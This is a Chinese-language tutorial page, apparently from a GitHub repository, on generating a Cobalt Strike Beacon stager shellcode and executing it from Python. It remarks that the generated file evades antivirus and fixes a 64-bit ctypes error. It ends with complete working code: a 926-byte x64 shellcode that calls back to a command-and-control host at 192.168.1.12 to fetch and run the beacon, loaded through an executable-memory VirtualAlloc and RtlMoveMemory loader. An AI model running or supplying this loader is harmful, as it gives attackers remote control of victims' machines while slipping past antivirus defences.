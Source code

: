 # CS 生成并调用Beacon的ShellCode

按照CS4.9的[User-driven Attack Packages](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/init-access_user-driven-attack-packages.htm?cshid=1036#_Toc65482753)文档可以生成Stager Payload的shellcode。

如下图所示，选择python，会生成python语法格式的源文件，并将shellcode保持在生成文件中。（注：如果输出格式选择`C`，那么生成的shellcode替换进python中也可以使用，只是生成指定语言的源代码而已，核心shellcode都是类似的可执行二进制码）

<img src="cs_imgs/CobaltStrike-Stager-Payload-Generator-Python-shellcode-payload.png" alt="CobaltStrike-Stager-Payload-Generator-Python-shellcode-payload" />

获得CS生成的py文件，该文件并不会被现有防病毒软件查杀。按照文档[python shellcode 加载](https://github.com/aleenzz/Cobalt_Strike_wiki/blob/master/2-%E7%AC%AC%E4%BA%94%E8%8A%82%5Bpython%20shellcode%20%E5%8A%A0%E8%BD%BD%5D.md)中方法，添加调用shellcode的python代码（附在文章末尾）后，执行报如下错误：

```
C:\Users\Administrator\Desktop>python payload_x64.py
Traceback (most recent call last):
  File "C:\Users\Administrator\Desktop\payload_x64.py", line 22, in <module>
    ctypes.windll.kernel32.RtlMoveMemory(
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~^
        ctypes.c_void_p(rwxpage),  # 指向分配内存的指针
        ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
        shellcode_buffer,       # buffer
        ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
        ctypes.c_size_t(len(shellcode))  # shellcode 的长度
        ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    )
    ^
OSError: exception: access violation writing 0x0000000073E20000
```

经过分析，发现是由于Python中`ctypes`库在64位系统中处理指针的问题。添加额外的代码`ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_void_p`即可以解决该问题。详细请参考文档<a src="cs_imgs/How to run shellcode in python3 64bit.pdf"> How to run shellcode in python3 64bit </a>

此外，python代码可以使用`PyInstaller`工具打包成exe文件，方便在未按照python的机器上测试。（注：该exe运行时会被AV给查杀掉）

## 完整执行shellcode的代码如下（适用于Python3.13 64位）：

```
# length: 926 bytes
buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xe9\x93\x00\x00\x00\x5a\x48\x89\xc1\x41\xb8\xbb\x01\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x79\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x32\xc0\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\xba\x1f\x00\x00\x00\x6a\x00\x68\x80\x33\x00\x00\x49\x89\xe0\x41\xb9\x04\x00\x00\x00\x41\xba\x75\x46\x9e\x86\xff\xd5\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xb3\xe9\xe4\x01\x00\x00\xe8\x82\xff\xff\xff\x2f\x51\x36\x73\x63\x00\x6b\xc8\xc9\x22\x9b\xf1\x92\xb6\x85\xa1\x5c\x46\x72\x86\x4c\xe0\x97\x29\xf7\x04\x62\x84\xc3\xb2\x6b\xc0\xed\x35\x88\x1f\xef\xec\x67\x48\x8f\xc6\x3f\x2e\x11\xaa\xb9\x8e\xe6\x9a\x02\x71\xa7\xcf\xa7\xa5\x6b\x35\xba\xea\x04\xfa\x82\xb0\xbe\x2a\x37\x0e\xa8\xf9\x22\x8f\x18\x0f\x6e\x09\xc3\xb9\xb0\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x34\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x38\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x35\x2e\x31\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x34\x2e\x30\x3b\x20\x2e\x4e\x45\x54\x20\x43\x4c\x52\x20\x32\x2e\x30\x2e\x35\x30\x37\x32\x37\x29\x0d\x0a\x00\x8f\x4b\xf5\x89\x84\x0b\xdb\x5d\x97\xc5\x27\x69\xe6\x93\x7b\x38\xc5\x96\x62\xf1\xa1\xe1\xa8\xb0\x86\x99\x5c\xad\xbf\x2c\xcd\x9e\x0a\x0d\xdf\x58\xe7\x8d\x40\xa9\x5b\x9e\x07\x6c\x11\x24\xae\xcb\xbe\xfd\xe4\x2a\x8b\x2e\x27\x50\x5d\x78\xe8\x98\x3b\x98\x3a\xee\x5e\x64\x56\xa3\x3d\x7d\x43\x59\xf6\xbe\x7d\xad\x87\xbb\x07\x45\x4b\x14\x55\xdd\x03\xbf\x34\x37\x61\x40\x8b\x90\x12\x22\xa2\xc1\x14\x3d\xe6\xb0\xc9\xbe\xe9\xcf\xa8\x88\xaa\xd3\x3f\x9e\x7a\x28\x2c\xbc\x97\x7a\x1b\x9c\xe1\x61\x82\xcb\x5c\x44\xbd\xd9\xba\x28\xaf\x1f\x69\xe1\x21\x5c\x27\x94\x1f\x24\x21\x2b\x4f\xe4\x31\x09\x53\x2b\xdd\x03\x1d\x49\xb0\x7f\x31\x05\x63\xe4\x0f\x14\x82\xbd\xd6\x13\xbc\xc8\x3a\xdb\x7a\x57\x8f\x8b\x72\x92\xa8\xbf\x79\xb4\x78\xc1\x1e\x9b\x2f\x67\xb8\xe1\xec\x4d\x1d\x27\x06\xe1\x82\x65\x5d\xd0\x8f\x7d\x3d\x07\x32\x8d\xcc\x1a\x51\x6b\x99\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x7f\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x2e\x31\x32\x00\x3a\xde\x68\xb1"

import ctypes
import ctypes.wintypes

# 分配可执行内存
MEM_COMMIT = 0x1000
MEM_RESERVE = 0x2000
PAGE_EXECUTE_READWRITE = 0x40

shellcode=buf.encode('latin-1')
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_void_p

rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
if not rwxpage:
    raise Exception("内存分配失败！")

shellcode_buffer = ctypes.create_string_buffer(shellcode)

# 使用 RtlMoveMemory 将 shellcode 写入
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_void_p(rwxpage),  # 指向分配内存的指针
    shellcode_buffer,       # buffer
    ctypes.c_size_t(len(shellcode))  # shellcode 的长度
)
print("start cs beacon!!!")
shell = ctypes.cast(rwxpage, ctypes.CFUNCTYPE(ctypes.c_void_p))
shell()
```
